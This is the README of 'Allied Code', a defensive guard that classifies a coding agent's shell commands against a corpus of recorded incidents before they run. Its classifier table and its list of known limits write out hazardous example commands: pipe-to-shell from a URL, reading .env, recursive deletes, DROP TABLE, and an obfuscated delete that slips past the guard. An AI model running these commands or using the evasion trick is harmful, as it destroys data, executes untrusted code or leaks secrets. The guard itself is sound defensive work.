

# Allied Code

A pre-execution guard for coding agents that decides from **recorded incidents**,
not from a static blocklist. The package and the CLI are named `guard`; the
project is Allied Code.

Every guard project starts the same way: a list of dangerous patterns and a
regex. The list is written once, by someone guessing, and it never learns
anything from the machine it runs on. `ops-guard` inverts that. The patterns only
say *what kind of action this is*. What decides is a corpus of incidents that
actually happened, retrieved by similarity to the action about to run and quoted
back in the reason.

So a block does not read:

```
Blocked: matched pattern rm -rf
```

It reads:

```
ops-guard: blocked — recursive, forced delete of a directory tree
[fs.recursive-delete] | precedent delegated-agent-deleted-tooling (2026-06-20):
A delegated agent never runs a destructive command. Deletion is done by the
orchestrator, one item at a time, with explicit approval for each.
```

The second one is arguable. That is the point: you can open the incident, decide
the guard is wrong, and change the corpus instead of disabling the guard.

## What it does

- **Classifies** a proposed tool call into hazard classes (recursive delete,
  history rewrite, credential exposure, outward publish, system configuration,
  pipe-from-network-to-shell, and so on).
- **Retrieves** the incidents that resemble it, from a folder of plain markdown
  files you own and can edit.
- **Decides** `deny` / `ask` / `defer`, with the precedent named in the reason.
- **Writes a receipt** for every decision — including the ones where it stayed
  quiet — with the redacted action, the classes, the evidence, and the latency.
- **Briefs** an agent or a person *before* the work starts, from the same corpus:
  `guard brief "clean up old branches"` returns what already went wrong here.

## What it deliberately does not do

- It does not grant permission. By default the guard never returns `allow`; it
  can raise friction, never lower it. `allow_safe` exists, is off, and should
  stay off unless you know exactly what you are trading.
- It does not call a model, or the network, or a vector database. It runs in
  front of every tool call, so it has a millisecond budget and no right to spend
  yours. Retrieval is lexical and dependency-free (~0.1 ms when nothing matches,
  ~4 ms with retrieval, measured on a low-end laptop).
- It does not replace your runtime's permission system. It feeds it.

## Install

Requires Python 3.11+. No dependencies.

```bash
pipx install git+https://github.com/Abner-Machado/allied-code
guard install --write     # merges the hooks into your agent settings
guard doctor              # confirms it is actually on
```

`install --write` backs the settings file up with a timestamp before touching it,
merges instead of replacing, and is idempotent. Without `--write` it prints the
block for you to paste. That care is not generic caution: `corpus/` already holds
the incident where editing a global config to install tooling broke the tooling
that was working.

`guard doctor` answers the only question that matters after installing — is it on?
It checks the interpreter, the corpus, a writable ledger, live classification, and
whether the hook is actually wired, and exits non-zero if any of that fails.

To work from a checkout instead, `git clone`, then
`python -m guard.cli install --python /path/to/python`.

### The four layers

The corpus is the same in the three places it is read; what differs is when it
arrives. The fourth reads nothing and writes one line — see
[the part where it learns from you](#the-part-where-it-learns-from-you).

| Layer | Event | Fires | Can it stop anything? |
| --- | --- | --- | --- |
| Standing rules | `SessionStart` | Session opens | No — injects the critical rules, once |
| Task precedent | `UserPromptSubmit` | Task is described | No — injects what resembles the request |
| Execution guard | `PreToolUse` | Before each tool call | Yes — `deny` / `ask` / `defer` |
| Outcome | `PostToolUse` | After a call actually ran | No — it records what you decided |

Installing only the execution guard is the common mistake. By the time `PreToolUse` sees
a command the plan is already written and the reasoning that produced it is spent;
the guard can only argue with a finished decision. The earlier layers change what
gets proposed.

The injection layers only ever emit text read from the corpus directory, are
capped at 1200 characters, and fail into silence. The `PreToolUse` hook reads the
tool call as JSON on stdin and answers with a `permissionDecision`. Any failure
inside the guard — bad input, missing corpus, unwritable ledger — degrades to
`defer`. A guard that can take the session down gets uninstalled the same day, and
then it protects nothing.

## Use it

```bash
guard check "rm -rf ~/Tools"            # evaluate one action, without running it
guard check "git push --force" --json   # machine-readable, exit 1 when denied
guard brief "rotate the API keys"       # what to know before starting
guard ledger --last 20 -v               # the receipts
guard stats                             # decisions, latency, and how often you agreed
guard learn --id truncated-write \
      --title "Output hit the ceiling and the cut was never noticed" \
      --rule "Check the stop reason before treating output as complete" \
      --severity high --tags truncation output
```

## Start in observe mode

Default mode is `observe`: the guard classifies, retrieves, records — and never
blocks. Run it for a week, read `guard stats`, and see what it *would* have done
against work you know was fine. Then set `mode = "enforce"` in `guard.toml` (or
`GUARD_MODE=enforce`).

Shipping straight to enforce is how guards get a reputation for being in the way.

## The part where it learns from you

The guard asks. Until this version it never learned the answer.

The answer was always there. `PostToolUse` fires **only after a tool succeeds**.
So a call the guard questioned and you refused leaves no line at all, and a call
you approved leaves one. Silence is the label. Nothing is inferred from a model,
nothing is sent anywhere, and nothing new runs before your command — the outcome
line is written after the tool already ran.

That turns the ledger into the only number a guard cannot fake:

```
verdict       31 call(s) questioned
  stopped       24  77%  you agreed with the guard
  overruled      7  23%  you ran it anyway
noise         cited repeatedly, never once stopped you:
  pinned-model-id-vanished
              that incident is firing where it does not belong.
              edit the file or delete it — the guard will not do it for you.
```

Read the last block again. The guard is telling you which of *its own rules* is
wasting your attention, and it is naming the file. Every other guard makes you
discover that by getting annoyed enough to disable the whole thing.

**It never acts on this.** Being overruled a hundred times does not soften a
single decision. A guard that relaxes because it was argued with is a guard that
can be argued with, and that failure is silent. The verdict produces a report;
lowering friction stays something a human does, in the corpus, as a commit you
can read months later. Precedent still escalates and never de-escalates.

## Delegated agents run under a lower ceiling

The orchestrator and the producer it delegates to share a shell and, until now,
got the same answer. They should not. The orchestrator picked the command; the
subagent was handed a narrow mandate, and `corpus/delegated-agent-deleted-tooling.md`
is what happens when it steps outside it.

```toml
[guard]
strict_agents = ["produtor-*", "opencode/*", "hermes/*"]
```

Every hazard class is escalated one level for those callers: what the
orchestrator would be *asked* about, a producer is *denied*. It only ever raises
— naming an agent can never grant it anything — so the list cannot quietly become
an allowlist. `GUARD_STRICT_AGENTS` does the same for scripts that launch
producers and cannot edit a config file, and the caller's name comes from the
hook payload or `GUARD_AGENT`.

```bash
guard check "npm install -g typescript" --agent produtor-haiku
```

## The corpus

One incident per file, front matter plus prose:

```markdown
---
id: delegated-agent-deleted-tooling
title: A delegated agent uninstalled tooling nobody asked it to touch
date: 2026-06-20
severity: critical
tags: delete uninstall filesystem delegation subagent destructive
rule: A delegated agent never runs a destructive command. Deletion is done by the orchestrator, one item at a time, with explicit approval for each.
source: local-incident
---

## What happened
...

## Why the rule
...
```

The `rule` line is what gets quoted when the guard blocks. The prose is what
convinces you months later that the rule was worth having.

The `source` line says where an incident came from, and it is not decoration.
`source: local-incident` means it happened on the machine this was written on,
dates included. `source: illustrative` means it is a hazard shape written to give
a new install something to retrieve on day one — it reads like a real incident
because that is the format, and it is labelled so nobody mistakes it for one.
Delete them and write your own; that is the intended first move.

## Keep the corpus where you already write

Incidents are markdown with YAML front matter, which is also what Obsidian,
Logseq and Foam write. Point the corpus at a folder inside your vault and the
incidents live where you already read them:

```toml
[guard]
corpus_dir = "~/vault/Operations/Incidents"
```

A corpus in a folder nobody opens ages out of date while the guard keeps citing it
with the same confidence. See
[docs/pt-br/integracoes.md](docs/pt-br/integracoes.md) for the full integration
notes, including feeding the corpus to another model before delegating.

## The Rust core (`alliedcore`)

A command line is not a string to search patterns inside; it is a sequence of
segments, and some of those segments never execute. The Rust core splits the
line first and only classifies the parts that run.

The core is optional. Without it the guard behaves the same, in pure Python.

### What the core fixes

The defect the core exists for: a dangerous command inside quotes is text, not
an action. `echo "rm -rf /"` must not classify as a deletion. String search over
the whole line cannot tell the difference; segmentation can.

### How the core classifies

Classification runs in two passes. The first splits the line into segments and
classifies each `Exec` segment on its own. The second pass rebuilds the pipeline
from the segments that execute and classifies that reconstructed line — but it
drops the `Quoted` segments first. Only `Quoted` is removed; `Substitution` stays
in the reconstruction and is classified there. That second pass is what lets the
core catch `curl … | sh` after the line has already been broken into pieces — the
first question an attentive reader asks.

Which quote a run uses decides whether its contents are text or action, so the
split has to know the difference. A double-quoted run expands command
substitution — `echo "$(id)"` runs `id` — while a single-quoted run expands
nothing. An expanding run is therefore a container, not a leaf: the literal
stretches leave as `Quoted` and the `$( … )` and backtick runs inside them leave
as `Substitution`. The same holds in PowerShell, where `"…"` and `@"…"@` expand
while `'…'` and `@'…'@` do not. A bare `$name` inside a run is left alone: inside
a string it is a value, not a call whose argument the guard cannot read.

There is an honest cost to rebuilding the pipeline by joining the surviving
segments with `|`: a `curl x; sh` written with a semicolon also triggers
`remote.pipe-to-shell`. That is an accepted false positive — "it downloaded
something and ran a shell right after" deserves attention either way, so the
limit is declared, not hidden.

### Rust vs Python parity

Measured on the same nine commands, on the same machine. One divergence, and it
is the bug being fixed — the Python side reads the quoted string as a command.

| command | rust | python | match |
| --- | --- | --- | --- |
| `rm -rf /tmp/x` | `['fs.recursive-delete']` | `['fs.recursive-delete']` | yes |
| `echo "rm -rf /"` | `[]` | `['fs.recursive-delete']` | **no** |
| `git reset --hard` | `['git.history-rewrite']` | `['git.history-rewrite']` | yes |
| `curl http://x.com/s.sh \| sh` | `['remote.pipe-to-shell']` | `['remote.pipe-to-shell']` | yes |
| `cat .env` | `['secret.exposure']` | `['secret.exposure']` | yes |
| `npm install -g typescript` | `['package.global-install']` | `['package.global-install']` | yes |
| `DROP TABLE users` | `['db.drop']` | `['db.drop']` | yes |
| `DELETE FROM users WHERE id=1` | `[]` | `[]` | yes |
| `taskkill /F /IM node.exe` | `['process.force-kill']` | `['process.force-kill']` | yes |

### Latency

Measured on 20,000 classifications on this machine (Windows 11, i3-1215U, no
GPU): 5.5 microseconds per classification with the Rust core, against 11.4
microseconds in pure Python. That is **2.07x**.

Most of that gain is lost crossing the Rust/Python boundary. The reason the core
exists is **correctness**, not speed. A project selling "2x" as if it were "40x"
loses the reader who measures it.

### It is optional

Without the extension built and on the path, the guard uses the Python rules and
acts the same. Check which backend is active:

```bash
guard doctor        # reports the active classifier
```

Force a backend with an environment variable:

```bash
ALLIED_BACKEND=python guard check "rm -rf ~/Tools"   # pure Python, always works
ALLIED_BACKEND=rust   guard check "rm -rf ~/Tools"   # only if the extension is built
```

`ALLIED_BACKEND` accepts `python` or `rust`. If you set `rust` and the extension
is not present, the guard falls back to Python rather than failing.

### Building the extension

The commands that work on this machine:

```bash
cd alliedcore
cargo build --release --features python
```

The artifact lands in `alliedcore/target/release/`. On Windows it is
`alliedcore.dll` and must be copied as `alliedcore.pyd` into a folder on
`sys.path`. On Linux it is `liballiedcore.so`, copied as `alliedcore.so`; on
macOS it is `liballiedcore.dylib`, also copied as `alliedcore.so`.

The toolchain used and tested here was `stable-x86_64-pc-windows-gnu`
(rustc 1.98). The `msvc` toolchain requires the Microsoft Build Tools; that note
saves about an hour for anyone compiling on Windows.

### What the core does not do

It decides nothing. It only classifies. The decision stays in Python, weighed
against the corpus of recorded incidents. That separation is what keeps the
guard auditable: a class can be wrong without a rule being wrong.

## Known limits

- **Language.** Retrieval is lexical, so a corpus in one language does not answer
  a request in another. Measured here: `delete tooling` scores 0.744 against the
  matching incident; the same intent in Portuguese scores 0.000. No error, no
  warning. The shipped corpus was mixed-language for exactly one release, and six
  incidents were unreachable the whole time — it is English-only now for that
  reason. Write the corpus in the language you work in, and only that one.
- Retrieval is lexical in the same way within a language. It matches vocabulary,
  not meaning: an incident written about "uninstalling tools" will not fire on
  "purging binaries" unless the words overlap. Tags exist to paper over this, and
  they only go so far.
- Scores are normalised by query weight, so they are only comparable between
  queries of similar length — a threshold tuned on commands will not transfer to
  prompts. See `corpus/threshold-silently-disabled-a-layer.md`; this project shot
  itself in the foot with exactly that and the incident is in the corpus.
- **MCP tool calls are not classified.** Classification reads shell commands and
  file paths. A video or media MCP server — generate, render, upload, publish —
  passes structured arguments the guard does not inspect, so those flows are
  outside the fence today. The hazards are mapped in the integration notes; the
  layer is not built.
- Classification is regex over the command string. Obfuscation defeats it
  trivially (`$env:X="rm"; & $env:X -rf .`). This is a guard against accidents and
  overconfident automation, not against an adversary with shell access.
- A corpus with no incident about a hazard still blocks on severity alone, and
  says so ("no matching precedent on record"). Precedent raises the floor; it is
  not required to reach it.
- Only tool calls the hook matcher sees are inspected. Anything a process spawns
  afterwards is outside the fence.

## Authorship

Written and maintained by **Abner Machado**. The design decisions, the invariants
and the calls about what does not get built are his.

Claude (Anthropic) worked on it with him as a pair: arguing the design, writing
code and tests under review, and finding the defects named in the commit history.
Every line here was read and accepted by a human before it shipped. Saying so
costs nothing and makes the provenance of the code checkable, which is the same
argument the corpus makes about incidents.

## License

MIT.
